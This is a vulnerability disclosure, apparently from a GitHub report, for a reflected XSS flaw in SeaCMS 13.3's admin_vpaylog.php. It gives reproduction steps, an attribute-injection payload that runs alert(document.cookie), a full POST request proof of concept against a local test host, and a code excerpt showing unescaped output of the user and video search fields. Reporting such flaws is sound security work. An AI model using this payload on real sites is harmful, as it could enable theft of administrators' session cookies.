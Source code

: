 <font style="color:rgb(31, 35, 40);"></font>

<font style="color:rgb(31, 35, 40);"></font>

<font style="color:rgb(31, 35, 40);">seacms13.3 admin_vpaylog.php reflected xss</font>

<font style="color:rgb(31, 35, 40);">Visit admin_vpaylog.php</font>



![](https://cdn.nlark.com/yuque/0/2025/png/48232492/1742095188884-5615e495-3c2e-43bc-a9f7-d644e6acd094.png)



input " onmouseover=alert(document.cookie) type="  in user or video



Click to search 



![](https://cdn.nlark.com/yuque/0/2025/png/48232492/1742095458244-957e0d98-f7c4-45b7-b548-dc18af2a2bb0.png)



<font style="color:rgb(31, 35, 40);">Slide the mouse</font>

<font style="color:rgb(31, 35, 40);"></font>

![](https://cdn.nlark.com/yuque/0/2025/png/48232492/1742095496468-6f209e88-b311-4da2-aa9b-ec70ae00e981.png)



<font style="color:rgb(31, 35, 40);">Success pop-up window</font>

<font style="color:rgb(31, 35, 40);"></font>

<font style="color:rgb(31, 35, 40);">POC</font>

<font style="color:rgb(31, 35, 40);"></font>

> <font style="color:rgb(31, 35, 40);">POST /l6bfwk/admin_vpaylog.php?action=search HTTP/1.1</font>
>
> <font style="color:rgb(31, 35, 40);">Host: 127.0.0.1:8008</font>
>
> <font style="color:rgb(31, 35, 40);">Content-Length: 155</font>
>
> <font style="color:rgb(31, 35, 40);">Cache-Control: max-age=0</font>
>
> <font style="color:rgb(31, 35, 40);">sec-ch-ua: "Not-A.Brand";v="99", "Chromium";v="124"</font>
>
> <font style="color:rgb(31, 35, 40);">sec-ch-ua-mobile: ?0</font>
>
> <font style="color:rgb(31, 35, 40);">sec-ch-ua-platform: "Windows"</font>
>
> <font style="color:rgb(31, 35, 40);">Upgrade-Insecure-Requests: 1</font>
>
> <font style="color:rgb(31, 35, 40);">Origin: </font>[http://127.0.0.1:8008](http://127.0.0.1:8008)
>
> <font style="color:rgb(31, 35, 40);">Content-Type: application/x-www-form-urlencoded</font>
>
> <font style="color:rgb(31, 35, 40);">User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.60 Safari/537.36</font>
>
> <font style="color:rgb(31, 35, 40);">Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7</font>
>
> <font style="color:rgb(31, 35, 40);">Sec-Fetch-Site: same-origin</font>
>
> <font style="color:rgb(31, 35, 40);">Sec-Fetch-Mode: navigate</font>
>
> <font style="color:rgb(31, 35, 40);">Sec-Fetch-User: ?1</font>
>
> <font style="color:rgb(31, 35, 40);">Sec-Fetch-Dest: document</font>
>
> <font style="color:rgb(31, 35, 40);">Referer: </font>[http://127.0.0.1:8008/l6bfwk/admin_vpaylog.php?action=search](http://127.0.0.1:8008/l6bfwk/admin_vpaylog.php?action=search)
>
> <font style="color:rgb(31, 35, 40);">Accept-Encoding: gzip, deflate, br</font>
>
> <font style="color:rgb(31, 35, 40);">Accept-Language: zh-CN,zh;q=0.9</font>
>
> <font style="color:rgb(31, 35, 40);">Cookie: PHPSESSID=icuu8ee5snolh7c11l6ddo4n42</font>
>
> <font style="color:rgb(31, 35, 40);">Connection: close</font>
>
> <font style="color:rgb(31, 35, 40);"></font>
>
> <font style="color:rgb(31, 35, 40);">uname=+%22+onmouseover%3Dalert%28document.cookie%29+type%3D%22&vname=+%22+onmouseover%3Dalert%28document.cookie%29+type%3D%22&selectBtn=%E6%90%9C+%E7%B4%A2</font>
>



**<font style="color:rgb(31, 35, 40);">code analysis</font>**

<font style="color:rgb(31, 35, 40);">  
</font>![](https://cdn.nlark.com/yuque/0/2025/png/48232492/1742095998178-75e746b8-3dfd-405c-bfe2-0ab1aeb8a2ea.png)



(1) $uname 和 $vname Direct output





```php
if($uname !="" OR $vname !=""){echo '【<font color=red>'.$uname.$vname.'</font>消费<font color=red>'.$vpayallu.'</font>】';}
```



Risk: if $uname or $vname comes from user input (such as $\u post['uname'] or $\u post['vname']), an attacker can construct malicious input.



：










